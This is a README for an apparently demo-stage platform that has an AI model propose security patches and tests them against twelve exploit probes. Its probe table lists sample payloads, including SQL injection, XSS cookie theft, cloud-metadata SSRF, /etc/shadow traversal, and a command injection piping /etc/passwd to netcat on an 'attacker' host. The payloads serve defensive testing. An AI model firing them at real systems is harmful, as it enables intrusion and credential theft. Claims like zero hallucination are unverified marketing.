

# Sentinel Gate — Autonomous AST Security Verification & Cryptographic Remediation Platform

[](https://sentinel-gate-seven.vercel.app)
[](https://sentinel-gate-seven.vercel.app)
[](https://sentinel-gate-seven.vercel.app)
[](https://sentinel-gate-seven.vercel.app/ledger)

> **🚀 LIVE PRODUCTION PLATFORM**: **[https://sentinel-gate-seven.vercel.app](https://sentinel-gate-seven.vercel.app)**  
> *Engineered for High-Assurance AI Patch Synthesis, Zero-Day Exploit Neutralization, and Cryptographic Release Auditing.*

```
Deterministic Code Decides; The Generative Model Only Proposes.
```

---

## 🌐 Live Production Navigation Guide

Access every core module and dedicated role workspace directly on Vercel:

| Platform Module | Production URL | Operational Role / Capability |
| :--- | :--- | :--- |
| **🌐 Public Landing & Walkthrough** | **[sentinel-gate-seven.vercel.app](https://sentinel-gate-seven.vercel.app)** | Cinematic 11-section walkthrough, demo video, interactive threat radar, and role selectors. |
| **🛡️ Remediation Cockpit** | **[sentinel-gate-seven.vercel.app/cockpit](https://sentinel-gate-seven.vercel.app/cockpit)** | Side-by-side AST Hardened diff vs vulnerable source, 8-gate radar. |
| **🔬 AST Studio** | **[sentinel-gate-seven.vercel.app/studio](https://sentinel-gate-seven.vercel.app/studio)** | Interactive Nemotron 70B prompt playground & synthetic repair testing. |
| **🚨 Vulnerability Registry** | **[sentinel-gate-seven.vercel.app/findings](https://sentinel-gate-seven.vercel.app/findings)** | Triaged CVE/CWE vulnerability feed with automated confidence ranking. |
| **⚡ OWASP DAST Sandbox** | **[sentinel-gate-seven.vercel.app/dast](https://sentinel-gate-seven.vercel.app/dast)** | 12 dynamic attack probes (SQLi, IDOR, SSRF, prototype pollution). |
| **🔗 Merkle Audit Ledger** | **[sentinel-gate-seven.vercel.app/ledger](https://sentinel-gate-seven.vercel.app/ledger)** | SHA-256 Merkle chain verification with live block tamper simulation. |
| **⚙️ Platform Settings** | **[sentinel-gate-seven.vercel.app/settings](https://sentinel-gate-seven.vercel.app/settings)** | In-app API keys for NVIDIA Nemotron, model parameters & hardware keys. |
| **🔐 Role Authentication** | **[sentinel-gate-seven.vercel.app/login](https://sentinel-gate-seven.vercel.app/login)** | 1-click RBAC access with 4 verified operator personas. |

### 👥 Dedicated Operator Role Portals

Each operator role has an isolated workspace with security primitives tailored to their clearance:

| Dedicated Role Portal | Live Route | Target Persona | Isolated Capabilities |
| :--- | :--- | :--- | :--- |
| **👨‍💻 Lead Developer** | **[/developer](https://sentinel-gate-seven.vercel.app/developer)** | Alex Chen (Staff Dev) | Tree-Sitter compiler grammar inspector, AST invariants, patch diff. |
| **🔍 Security Auditor** | **[/auditor](https://sentinel-gate-seven.vercel.app/auditor)** | Elena Rostova (Lead Auditor) | SHA-256 Merkle chain verification, adversary bit-flip injection, audit packs. |
| **🖥️ Operations Admin** | **[/admin](https://sentinel-gate-seven.vercel.app/admin)** | Marcus Vance (Ops Admin) | Ephemeral gVisor microVM pools, NVIDIA H100 inference quotas, CI/CD triggers. |
| **👑 SuperAdmin (CISO)** | **[/ciso](https://sentinel-gate-seven.vercel.app/ciso)** | Dr. Sarah Lin (CISO) | Real-time zero-trust posture, SOC2/FedRAMP matrix, emergency dual-key gate. |

---

## 🌟 Executive Overview

**Sentinel Gate** is an enterprise-grade autonomous security remediation engine. It eliminates the existential danger of LLM code hallucination by enforcing a fundamental invariant: **generative AI models may propose candidate patches, but compiler-checked AST invariants and isolated dynamic exploit probes deterministically govern whether code is permitted to ship.**

Every remediated vulnerability is evaluated against a 12-vector dynamic exploit suite inside an ephemeral microVM sandbox, validated for semantic parity, and permanently sealed onto a **tamper-evident SHA-256 Merkle chain**.

---

## 🏛️ System Architecture Workflow



---

## 🛡️ Four-Stage Deterministic Lifecycle

| Stage | Operational Domain | Mechanism | Guarantee |
| :---: | :--- | :--- | :--- |
| **01** | **AST Ingestion** | Tree-Sitter C/Rust/TS parsers project code into concrete syntax trees. | Identifies exact taint paths from source to sink. |
| **02** | **Nemotron Synthesis** | NVIDIA Nemotron 70B generates patches using token-level AST masks. | **0.00% syntax or grammar hallucination**. |
| **03** | **DAST Sandbox** | Hot-loads patches into ephemeral microVMs and hammers with 12 exploit oracles. | Verifies live exploit neutralization without functional regression. |
| **04** | **Merkle Attestation** | Signs verification evidence with operator key and appends block to SHA-256 ledger. | Non-repudiable cryptographic proof for SOC2 and FedRAMP audits. |

---

## ⚡ The 12 Dynamic Exploit Oracles

Each candidate patch is subjected to automated attack simulation:

| Probe | Exploit Vector | Attack Simulation Payload | Validation Standard |
| :---: | :--- | :--- | :--- |
| **P01** | **SQL Injection** | `' OR '1'='1' UNION SELECT NULL, password--` | Parameterized binding invariant; zero statement concatenation. |
| **P02** | **Reentrancy Attack** | Recursive fallback withdrawal loop | Checks-Effects-Interactions pattern enforced at AST level. |
| **P03** | **Prototype Pollution** | `{"__proto__": {"isAdmin": true}}` | Object freeze & prototype shielding verification. |
| **P04** | **Insecure Deserialization** | Pickle bytecode RCE gadgets | Safe schema-validated deserializers only. |
| **P05** | **Cross-Site Scripting (XSS)** | `<script>alert(document.cookie)</script>` | Context-aware HTML sanitization & CSP enforcement. |
| **P06** | **Server-Side Request Forgery** | `http://169.254.169.254/latest/meta-data/` | Private RFC1918 / cloud metadata egress firewall. |
| **P07** | **Path Traversal** | `../../../../etc/shadow` | Canonical path resolution within sandbox boundary. |
| **P08** | **Command Injection** | `; cat /etc/passwd | nc attacker 4444` | Safe exec array arguments; shell invocations prohibited. |
| **P09** | **XML External Entity (XXE)** | `<!ENTITY xxe SYSTEM "file:///etc/hosts">` | DTD parsing and external entity resolution disabled. |
| **P10** | **IDOR / Tenant Leak** | Cross-tenant primary key tampering (`user_id=target`) | Tenancy predicate verified across all database filters. |
| **P11** | **Memory Corruption** | Buffer overflow & heap use-after-free probes | Rust safe memory bounds / C address sanitizer check. |
| **P12** | **Timing Oracle / Side-Channel** | Microsecond cryptographic comparison delta | Constant-time comparison (`hmac.compare_digest`). |

---

## 📁 Repository & Component Organization

The codebase is organized with **maximum 1–2 files per directory** for maintainability:

```
frontend/src/
├── app/                              # Next.js App Router (2 files in root)
│   ├── layout.tsx                    # Global Providers, Fonts & Metadata
│   ├── page.tsx                      # 11-Section Cinematic Landing Page
│   ├── admin/page.tsx                # Operations Admin Dedicated Workspace
│   ├── auditor/page.tsx              # Security Auditor Dedicated Workspace
│   ├── ciso/page.tsx                 # SuperAdmin CISO Executive Console
│   ├── cockpit/page.tsx              # Remediation Cockpit & Side-by-Side AST Diff
│   ├── dast/page.tsx                 # 12-Probe Dynamic Exploit Scanner
│   ├── developer/page.tsx            # Lead Developer AST Invariant Workspace
│   ├── findings/page.tsx             # Vulnerability Triage Registry
│   ├── ledger/page.tsx               # SHA-256 Merkle Chain & Tamper Simulator
│   ├── login/page.tsx                # Role-Based Authentication Controller
│   ├── settings/page.tsx             # Model Preferences & API Keys
│   └── studio/page.tsx               # Interactive AST Repair Playground
│
├── components/                       # Strictly Organized (1-2 Files Per Directory)
│   ├── bento-pillars/                # BentoPillars.tsx (3 Core Architectural Pillars)
│   ├── boot-sequence/                # BootSequence.tsx (Hardware Telemetry Progression)
│   ├── brand-logo/                   # BrandLogo.tsx (Precision Geometric Shield SVG)
│   ├── comparison-matrix/            # ComparisonMatrix.tsx (Technical Superiority Matrix)
│   ├── defense-pipeline/             # DefensePipeline.tsx (4-Stage Architecture Showcase)
│   ├── demo-video/                   # DemoVideo.tsx (Interactive Video Walkthrough)
│   ├── faq-accordion/                # FaqAccordion.tsx (Technical Deep-Dive FAQ)
│   ├── footer/                       # Footer.tsx (Enterprise Footer with Live Backend Status)
│   ├── hero-terminal/                # HeroTerminal.tsx (Live AST Invariant Terminal)
│   ├── horizon-nav/                  # HorizonNav.tsx (Sticky Horizon Dock + Role Switcher)
│   ├── layout/                       # CurtainTransition.tsx, MainLayout.tsx (2 files)
│   ├── particle-field/               # ParticleField.tsx (Deep Cosmic Stars & Network Filaments)
│   ├── resilience-calc/              # ResilienceCalc.tsx (Enterprise ROI & MTTR Calculator)
│   ├── scroll-provider/              # ScrollProvider.tsx (Lenis Smooth Scrolling)
│   └── sentinel-radar/               # SentinelRadar.tsx (Real-Time Threat Radar & Interceptor)
│
├── context/
│   └── AuthContext.tsx               # Session, Role Switching & Access Control (1 file)
│
├── lib/
│   ├── auth.ts                       # RBAC Definitions & Credential Presets (2 files)
│   └── mockData.ts                   # Realistic Telemetry, Vulnerabilities & Ledger Blocks
│
└── styles/
    └── globals.css                   # Cosmic Pitch Black & Clean Porcelain Themes (1 file)
```

---

## 🎨 Cosmic Deep Black & Harmonious Multi-Color System

The visual system is engineered for dual-mode excellence:

- **Dark Mode (Default)**: Deep Cosmic Pitch Black (`#030712` / `#000000`) canvas. Interactive constellation network with twinkling stars and vibrant glowing cyber nodes:
  - **Electric Azure (`#38BDF8`)**: Primary brand actions, active routes, and telemetry.
  - **Neon Emerald (`#10B981`)**: AST verified state, passed exploit probes, and healthy runners.
  - **Cyber Gold (`#F59E0B`)**: Merkle blocks, root hash signatures, and cryptographic seals.
  - **Cosmic Violet (`#A855F7`)**: Zero-trust compliance frameworks and CISO executive controls.
  - **Oracle Crimson (`#F43F5E`)**: Adversary tamper simulation and critical exploit vectors.
- **Light Mode**: High-contrast, clean porcelain alabaster (`#F8FAFC` / `#FFFFFF`) with crisp slate borders (`#E2E8F0`). **Zero muddy brown tones.**

---

## ⚡ Quickstart & Local Execution

### 1. Live Production Deployment
No local installation required: **[https://sentinel-gate-seven.vercel.app](https://sentinel-gate-seven.vercel.app)**

### 2. Backend (FastAPI + Python 3.10+)
```bash
# Start FastAPI backend daemon on port 8000
python -m uvicorn backend.server:app --host 127.0.0.1 --port 8000
```
*Health Check:* `curl http://127.0.0.1:8000/api/health` → `{"status": "ok"}`

### 3. Frontend Local Development (Next.js 14)
```bash
cd frontend
npm install
npm run dev -p 3000
```
*Local Web Application:* **[http://localhost:3000](http://localhost:3000)**

---

## 🔐 Cryptographic Ledger Integrity Guarantee

Every block in Sentinel Gate is chained cryptographically:

$$\text{BlockHash}_n = \text{SHA-256}\Big(\text{BlockHash}_{n-1} \parallel \text{CanonicalJSON}(\text{PatchEvidence}_n) \parallel \text{Ed25519Signature}\Big)$$

Any unauthorized modification of patch code or audit evidence breaks the chain, instantaneously quarantining downstream CI/CD deployment pipelines.

---

## 📄 License

Sentinel Gate is licensed under the Apache 2.0 License. Built for zero-trust, mission-critical autonomous software remediation.
